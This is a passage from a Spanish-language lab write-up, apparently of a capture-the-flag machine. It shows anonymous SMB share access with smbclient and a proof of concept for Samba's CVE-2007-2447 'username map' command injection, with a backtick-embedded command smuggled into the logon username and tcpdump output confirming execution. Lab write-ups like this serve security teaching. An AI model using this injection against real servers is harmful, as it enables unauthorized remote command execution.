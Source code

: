 Podemos acceder a un recurso llamado `tmp` con capacidad de lectura y escritura, nos conectaremos con `smbclient`

~~~ bash
smbclient //10.10.10.3/tmp

Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Apr 16 15:36:06 2025
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  kdhy                                N        0  Wed Apr 16 11:39:40 2025
  .ICE-unix                          DH        0  Wed Apr 16 10:43:33 2025
  vmware-root                        DR        0  Wed Apr 16 10:44:30 2025
  hldppda                             N        0  Wed Apr 16 15:36:05 2025
  .X11-unix                          DH        0  Wed Apr 16 10:43:59 2025
  juzahu                              N        0  Wed Apr 16 12:31:14 2025
  .X0-lock                           HR       11  Wed Apr 16 10:43:59 2025
  5541.jsvc_up                        R        0  Wed Apr 16 10:44:36 2025
  vgauthsvclog.txt.0                  R     1600  Wed Apr 16 10:43:31 2025

		7282168 blocks of size 1024. 5386392 blocks available
~~~

Investigando estos archivos, no nos darán información relevante para una explotación
<br>


# Intrusión / Explotación
---
## Samba 3.0.20 < 3.0.25rc3 /`username map` Command Execution - CVE 2007-2447

Esta vulnerabilidad nos permite ejecutar comandos mediante un nombre de usuario malicioso, debido a la falta de sanitización en este parámetro

- https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py

El payload dentro del anterior exploit utiliza el comando `logon` dentro de una sesión SMB abierta. Esto nos permite ejecutar un comando utilizando el comando encapsulado

~~~ bash
smb: \> logon "/=`nohup ping -c1 10.10.14.212`"
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
~~~

Antes de ejecutar esta prueba de Concepto, nos pondremos a la escucha de paquetes ICMP para verificar que recibamos la traza

~~~ bash
tcpdump -i tun0 icmp  

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:11:30.274971 IP 10.10.10.3 > 10.10.14.212: ICMP echo request, id 10011, seq 1, length 64
15:11:30.274992 IP 10.10.14.212 > 10.10.10.3: ICMP echo reply, id 10011, seq 1, length 64
~~~

